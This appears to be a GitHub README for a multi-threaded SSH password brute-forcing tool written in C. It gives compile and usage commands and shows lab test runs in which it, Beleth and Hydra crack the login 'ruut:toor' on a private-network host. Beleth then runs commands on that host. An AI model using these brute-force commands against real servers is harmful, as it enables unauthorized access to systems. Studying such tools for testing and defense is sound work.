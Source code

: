 # SSH Brute Forcer

A simple, multi-threaded SSH brute force tool designed for basic brute forcing and dictionary-based attacks.

## Features

- **Multi-Threading**:
  - Utilizes multiple threads to attempt concurrent connections, potentially increasing speed.
  - Be cautious: Creating an excessive number of threads (e.g., 1000) can overwhelm the system. This feature is primarily for demonstration purposes and should be used with care.

- **Standard Brute Forcing**:
  - Tests random strings of varying lengths, which is generally inefficient and not recommended for serious use.

- **Dictionary-Based Attacks**:
  - Supports using a list of passwords from a file for more targeted attacks.

## Compile

```
$ cc -o ssh-brute-forcer ssh-brute-forcer.c -I/usr/local/include -L/usr/local/lib -lssh\
	-pthread -Wno-discarded-qualifiers -Wno-incompatible-pointer-types-discards-qualifiers\
	-Wno-unknown-warning-option
```

## Usage

```
$ ./ssh-brute-forcer -h <hostname> -p <port> [-u <username>] [-p <password> |\
	 -P <password_list>] [-t <thread_count>] [-V]
```
Parameters

    -h <hostname>: The SSH server’s hostname or IP address.
    -p <port>: The SSH port (default is 22).
    -u <username>: Specific username to test.
    -p <password>: Specific password to test.
    -P <password_list>: Path to a file with a list of passwords.
    -t <thread_count>: Number of threads for concurrent testing (default is 4).
    -V: Verbose mode to display attempted passwords.

Example Commands

    Test a Single Username and Password:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -p mypassword -t 10 -V
```

This command tests the provided username and password using 10 threads and displays the attempted passwords.

Dictionary-Based Attack with a Username and Password List:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -P pass.list -t 10 -V

```

    This command tests the specified username with all passwords from pass.list using 10 threads, showing attempted passwords.

Note

The brute force method of trying random strings is highly inefficient and not suitable for practical use. Additionally, using a large number of threads can significantly impact system performance and stability. This tool is intended primarily for educational purposes and should be used responsibly.

## Test
## ssh-brute-forcer

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time ./ssh-brute-forcer -h 192.168.1.142 -p 777 -u ruut -P pass.list -t 10 -V
Attempting - Username: ruut, Password: sdf
Attempting - Username: ruut, Password: dg
Attempting - Username: ruut, Password: asd
Attempting - Username: ruut, Password: sdf
Attempting - Username: ruut, Password: asdfa
Attempting - Username: ruut, Password: asdfasdfsad
Attempting - Username: ruut, Password: sadf
Attempting - Username: ruut, Password: ga
Attempting - Username: ruut, Password: asdfg
Attempting - Username: ruut, Password: f
Attempting - Username: ruut, Password: dsf
Attempting - Username: ruut, Password: sad
Attempting - Username: ruut, Password: as
Attempting - Username: ruut, Password: f
Attempting - Username: ruut, Password: df
Attempting - Username: ruut, Password: asdasdf
Attempting - Username: ruut, Password: asd
Attempting - Username: ruut, Password: asdf
Attempting - Username: ruut, Password: fasdgafadf
Attempting - Username: ruut, Password: asdf
Attempting - Username: ruut, Password: toor
Credentials found - Username: ruut, Password: toor

real	1.58s
user	0.01s
sys	0.03s
cpu	2%
```

##beleth

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time beleth -l 10 -t 192.168.1.142 -p 777 -w pass.list -u ruut -v
┌────────────────────────────────────────┐
│                 Beleth                 │
│          www.chokepoint.net            │
└────────────────────────────────────────┘
[*] Read 21 passwords from file.
[*] Starting task manager
[*] Spawning 10 threads
[*] Starting attack on ruut@192.168.1.142:777
[+] (1762) Trying ruut asdfa
[+] (1764) Trying ruut sdf
[+] (1771) Trying ruut asdfg
[+] (1763) Trying ruut dg
[+] (1766) Trying ruut f
[+] (1765) Trying ruut ga
[+] (1770) Trying ruut sdf
[+] (1767) Trying ruut asd
[+] (1768) Trying ruut asdfasdfsad
[+] (1769) Trying ruut sadf
[+] (1771) Trying ruut df
[+] (1766) Trying ruut as
[+] (1764) Trying ruut asd
[+] (1763) Trying ruut f
[+] (1767) Trying ruut asdf
[+] (1765) Trying ruut sad
[+] (1762) Trying ruut fasdgafadf
[+] (1770) Trying ruut asdf
[+] (1768) Trying ruut dsf
[+] (1769) Trying ruut asdasdf
[+] (1770) Trying ruut toor
[*] Cleaning up child processes.
[*] Authentication succeeded (ruut:toor@192.168.1.142:777)
[*] Executing: uname -a && id
[*] Linux NullByte 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt11-1+deb8u2 (2015-07-17) i686 GNU/Linux
[*] uid=1002(ruut) gid=1002(ruut) groups=1002(ruut)
kt11-1+deb8u2 (2015-07-17) i686 GNU/Linux

real	1.45s
user	0.03s
sys	0.05s
cpu	5%
```

##hydra

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time hydra -s 777 -l ruut -P pass.list  192.168.1.142 ssh -V     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-25 17:41:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 21 login tries (l:1/p:21), ~2 tries per task
[DATA] attacking ssh://192.168.1.142:777/
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdfa" - 1 of 21 [child 0] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sdf" - 2 of 21 [child 1] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdfg" - 3 of 21 [child 2] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "dg" - 4 of 21 [child 3] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "f" - 5 of 21 [child 4] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "ga" - 6 of 21 [child 5] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sdf" - 7 of 21 [child 6] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asd" - 8 of 21 [child 7] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdfasdfsad" - 9 of 21 [child 8] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sadf" - 10 of 21 [child 9] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "as" - 11 of 21 [child 10] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "df" - 12 of 21 [child 11] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asd" - 13 of 21 [child 12] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "f" - 14 of 21 [child 13] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdf" - 15 of 21 [child 14] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sad" - 16 of 21 [child 15] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "fasdgafadf" - 17 of 22 [child 3] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdf" - 18 of 22 [child 11] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "dsf" - 19 of 22 [child 0] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdasdf" - 20 of 22 [child 1] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "toor" - 21 of 22 [child 2] (0/1)
[REDO-ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asd" - 22 of 22 [child 4] (1/1)
[777][ssh] host: 192.168.1.142   login: ruut   password: toor
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-25 17:41:54

real	1.64s
user	0.05s
sys	0.03s
cpu	4%
```
